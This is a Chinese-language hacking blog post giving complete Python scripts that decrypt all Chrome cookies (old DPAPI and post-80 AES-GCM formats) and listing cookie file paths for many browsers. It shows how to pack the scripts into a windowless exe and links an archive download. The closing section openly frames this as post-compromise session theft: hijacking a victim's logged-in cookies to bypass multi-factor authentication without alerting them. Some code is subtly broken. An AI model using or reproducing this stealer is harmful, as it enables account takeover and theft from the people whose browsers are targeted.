Chrome 80.X版本如何解密Cookies文件
最近遇到了一个头疼的问题，就是Chrome在2月份更新了版本 80.0.3987.122（正式版本） （64 位）,以前写的抓取Cookies文件的脚本用不了，Chrome更新了加密算法，今天刚好解决了，分享出来大家一起交流学习下
0X00 抓取Cookies遇到问题
新版本ChromeCookies加密原理：
Windows上的Chrome Cookie（“ Cookies” SQLite文件的“ encrypted_value”）或密码（“ Login Data” SQLite文件的“ password_value”）的解密实现。不支持以“ v10”为前缀的那些和以“ v10”为前缀的那些。此存储库中的代码用JDK1.8编写，并在Windows 10 Professional 1903上针对Chrome 80.0.3987.106 x86 64位进行了测试。
加密的cookie和密码存储在SQLite文件“ Cookies”和“登录数据”中，可在Chrome用户数据目录中找到。
Chrome用户数据目录显示在
https://chromium.googlesource.com/chromium/src/+/master/docs/user_data_dir.md中。
https://github.com/n8henrie/pycookiecheat/issues/12是学习如何从keyring / keychain查找对称密钥以及在Linux和Mac中解密cookie的好地方。但是，pycookiecheat没有涵盖Windows平台中的有用信息。
我们可以了解如何从Chromium源代码中加密Cookie值。
我在http://www.meilongkui.com/archives/1904上写过中文文章。
简而言之，根据Chrome的版本，有两种不同的加密方法：
没有以“ v10”或“ v11”为前缀的加密值
以“ v10”或“ v11”为前缀的加密值
如果加密的值未以“ v10”或“ v11”作为前缀，则使用Windows DPAPI（数据保护应用程序编程接口）对原始值进行加密。从理论上讲，数据保护API可以对任何类型的数据进行对称加密。实际上，它在Windows操作系统中的主要用途是使用用户或系统秘密作为熵的重要贡献来执行非对称私钥的对称加密。实际上，在这种情况下，Chrome只是直接使用DPAPI来获取加密的cookie值。
0X01 查看新版与老版的Cookies加密值
使用Navicat查看下Chrome的Cookies文件

Chrome80版本之前的Cookies的值的加密，前面没有V10以及V11

Chrome80版本之后的Cookies的值的加密，前面有V10或者V11

区别在于多了V10和V11，也表明加密算法变了，用以前写的脚本就无法读取V10和V11里面的value了
0X02 Chrome-80版本之前的的Cookies解密脚本
Python脚本
import osimport sqlite3from collections import defaultdictfrom win32.win32crypt import CryptUnprotectData#脚本使用的python3.6#pip install pywin32'''实际使用场景请自行修改Cookies/cookies.sqlite位置，下面代码均为默认安装的位置，有些绿色版的文件夹位置以及老版本的渗透版火狐浏览器位置需要自行修改'''#获取chrome浏览器的cookiesdef getcookiefromchrome():cookiepath=os.environ['LOCALAPPDATA']+r"\Google\Chrome\User Data\Default\Cookies"sql="select host_key,name,encrypted_value from cookies"with sqlite3.connect(cookiepath) as conn:cu=conn.cursor()select_cookie = (cu.execute(sql).fetchall())cookie_list = []for host_key,name,encrypted_value in select_cookie:cookie = CryptUnprotectData(encrypted_value)[1].decode()cookies = {host_key:name+":"+cookie}cookie_list.append(cookies)d = defaultdict(list)for cookie_item in cookie_list:for key,value in cookie_item.items():d[key].append(value.strip())print (dict(d))getcookiefromchrome()
0X03 其他浏览器的Cookies文件保存位置
其他浏览器的Cookies位置，均可使用上述脚本来进行抓取
IE浏览器Cookie数据位于：%APPDATA%\Microsoft\Windows\Cookies\ 目录中的xxx.txt文件 （里面可能有很多个.txt Cookie文件）如：C:\Users\yren9\AppData\Roaming\Microsoft\Windows\Cookies\0WQ6YROK.txt在IE浏览器中，IE将各个站点的Cookie分别保存为一个XXX.txt这样的纯文本文件（文件个数可能很多，但文件大小都较小）；而Firefox和Chrome是将所有的Cookie都保存在一个文件中（文件大小较大），该文件的格式为SQLite3数据库格式的文件。Firefox的Cookie数据位于：%APPDATA%\Mozilla\Firefox\Profiles\ 目录中的xxx.default目录，名为cookies.sqlite的文件。如：C:\Users\jay\AppData\Roaming\Mozilla\Firefox\Profiles\ji4grfex.default\cookies.sqlite在Firefox中查看cookie, 可以选择”工具 > 选项 >” “隐私 > 显示cookie”。Firefox的Cookie数据位于：%APPDATA%\Mozilla\Firefox\Profiles\ 目录中的xxx.default目录，名为cookies.sqlite的文件。如：C:\Users\jay\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-release\cookies.sqliteChrome的Cookie数据位于：%LOCALAPPDATA%\Google\Chrome\User Data\Default\ 目录中，名为Cookies的文件。如：C:\Users\jay\AppData\Local\Google\Chrome\User Data\Default\CookiesC:\Users\Andy\AppData\Local\Google\Chrome\User Data\Default\Cookies在Linux系统上（以Ubuntu 12.04 和 RHEL6.x 为例）浏览器的CookieFirefox的Cookie路径为：$HOME/.mozilla/firefox/xxxx.default/目录下的cookie.sqlite文件。寰宇浏览器：C:\Users\Andy\AppData\Local\ ==== %LOCALAPPDATA%%LOCALAPPDATA%\QupZilla\profiles\default\CookiesQQ浏览器：C:\Users\Andy\AppData\Local\Tencent\QQBrowser\User Data\Default\Cookies%LOCALAPPDATA%\Tencent\QQBrowser\User Data\Default\Cookies360安全浏览器：C:\Users\Andy\AppData\Roaming\360se6\User Data\Default\Cookies%APPDATA%\360se6\User Data\Default\Cookies360极速浏览器：C:\Users\Andy\AppData\Local\360Chrome\Chrome\User Data\Default\Cookies%LOCALAPPDATA%\360Chrome\Chrome\User Data\Default\Cookies搜狗浏览器：C:\Users\Andy\AppData\Roaming\SogouExplorer\Webkit\Default\Cookies%APPDATA%\SogouExplorer\Webkit\Default\Cookies2345浏览器：C:\Users\Andy\AppData\Local\2345Explorer\User Data\Default%LOCALAPPDATA%\2345Explorer\User Data\Default\CookiesV3
如果是Chrome80后的版本运行效果：

0X04 Chrome-80版本之后的的Cookies解密脚本
Python代码截图：

demo.py
from chrome_cookie import ChromeCookieJarif __name__=='__main__':jar = ChromeCookieJar()jar.load()for cookie in jar:print(vars(cookie))
aesgcm.py
import osimport sysfrom cryptography.hazmat.backends import default_backendfrom cryptography.hazmat.primitives.ciphers import (Cipher, algorithms, modes)NONCE_BYTE_SIZE = 12def encrypt(cipher, plaintext, nonce):cipher.mode = modes.GCM(nonce)encryptor = cipher.encryptor()ciphertext = encryptor.update(plaintext)return (cipher, ciphertext, nonce)def decrypt(cipher, ciphertext, nonce):cipher.mode = modes.GCM(nonce)decryptor = cipher.decryptor()return decryptor.update(ciphertext)def get_cipher(key):cipher = Cipher(algorithms.AES(key),None,backend=default_backend())return cipher
chrome_cookie.py
import osimport sysimport sqlite3import http.cookiejar as cookiejarfrom urllib.parse import urlencodeimport json, base64import aesgcmsql = """SELECThost_key, name, path,encrypted_value as valueFROMcookies"""def dpapi_decrypt(encrypted):import ctypesimport ctypes.wintypesclass DATA_BLOB(ctypes.Structure):_fields_ = [('cbData', ctypes.wintypes.DWORD),('pbData', ctypes.POINTER(ctypes.c_char))]p = ctypes.create_string_buffer(encrypted, len(encrypted))blobin = DATA_BLOB(ctypes.sizeof(p), p)blobout = DATA_BLOB()retval = ctypes.windll.crypt32.CryptUnprotectData(ctypes.byref(blobin), None, None, None, None, 0, ctypes.byref(blobout))if not retval:raise ctypes.WinError()result = ctypes.string_at(blobout.pbData, blobout.cbData)ctypes.windll.kernel32.LocalFree(blobout.pbData)return resultdef unix_decrypt(encrypted):if sys.platform.startswith('linux'):password = 'peanuts'iterations = 1else:raise NotImplementedErrorfrom Crypto.Cipher import AESfrom Crypto.Protocol.KDF import PBKDF2salt = 'saltysalt'iv = ' ' * 16length = 16key = PBKDF2(password, salt, length, iterations)cipher = AES.new(key, AES.MODE_CBC, IV=iv)decrypted = cipher.decrypt(encrypted[3:])return decrypted[:-ord(decrypted[-1])]def get_key_from_local_state():jsn = Nonewith open(os.path.join(os.environ['LOCALAPPDATA'],r"Google\Chrome\User Data\Local State"),encoding='utf-8',mode ="r") as f:jsn = json.loads(str(f.readline()))return jsn["os_crypt"]["encrypted_key"]def aes_decrypt(encrypted_txt):encoded_key = get_key_from_local_state()encrypted_key = base64.b64decode(encoded_key.encode())encrypted_key = encrypted_key[5:]key = dpapi_decrypt(encrypted_key)nonce = encrypted_txt[3:15]cipher = aesgcm.get_cipher(key)return aesgcm.decrypt(cipher,encrypted_txt[15:],nonce)def chrome_decrypt(encrypted_txt):if sys.platform == 'win32':try:if encrypted_txt[:4] == b'\x01\x00\x00\x00':decrypted_txt = dpapi_decrypt(encrypted_txt)return decrypted_txt.decode()elif encrypted_txt[:3] == b'v10':decrypted_txt = aes_decrypt(encrypted_txt)return decrypted_txt[:-16].decode()except WindowsError:return Noneelse:try:return unix_decrypt(encrypted_txt)except NotImplementedError:return Nonedef to_epoch(chrome_ts):if chrome_ts:return chrome_ts - 11644473600 * 000 * 1000else:return Noneclass ChromeCookieJar(cookiejar.FileCookieJar):def __init__(self, filename=None, delayload=False, policy=None):if filename is None:if sys.platform == 'win32':filename = os.path.join(os.environ['USERPROFILE'],r'AppData\Local\Google\Chrome\User Data\default\Cookies')'''AppData\\Local\\Google\\Chrome\\User Data\\Profile [n]\\Cookies'''elif sys.platform.startswith('linux'):filename = os.path.expanduser('~/.config/google-chrome/Default/Cookies')if not os.path.exists(filename):filename = os.path.expanduser('~/.config/chromium/Default/Cookies')if not os.path.exists(filename):filename = Nonecookiejar.FileCookieJar.__init__(self, filename, delayload, policy)def _really_load(self, f, filename, ignore_discard, ignore_expires):con = sqlite3.connect(filename)con.row_factory = sqlite3.Rowcon.create_function('decrypt', 1, chrome_decrypt)con.create_function('to_epoch', 1, to_epoch)cur = con.cursor()cur.execute(sql)for row in cur:if row['value'] is not None:name = row['name']value = chrome_decrypt(row['value'])host = row['host_key']path = row['path']print("host:"+host + " path:" +path + " name:"+ name+" value:"+value)cur.close()
使用前需要安装：
pip install cryptography如何使用：

需要将这三个文件放在一个目录下，然后运行demo.py

如何打包成exe
先安装
pip install pyinstaller打包多文件
[pyinstaller [主文件] -p [其他文件1] -p [其他文件2] --hidden-import [自建模块1] --hidden-import [自建模块2]pyinstaller.exe -F -w demo.py -p aesgcm.py -p chrome_cookie.py

打包完毕

打包完的exe位置在dist目录下


打包完的exe运行效果
demo.exe > 1.txt将cookie信息打到1.txt文件中

运行结果：


0X05 实战应用场景
当控制了一台目标机器，但是后台需要手机验证码，谷歌验证器或者需要多因素验证才能登录，恰好你的目标刚好是浏览器登录在网站中，cookie还是有效的，这时候就可以去抓取目标的电脑浏览器的Cookies，解密，然后替换Cookie进入
你可以抓取目标机器的浏览器Cookies，然后你这边做socks代理，从而替换Cookie的方式登录后台
还能避免是单点登录的情况下，把目标挤下去，引起目标怀疑
利用场景很多，看你的思路和实际渗透需求去做即可

点赞，转发，再看
文章中代码下载地址：
链接：https://pan.baidu.com/s/1Ur-jcqZ2xXpuUutxLpJewQ
提取码：blty
压缩包解压密码是：hacker1961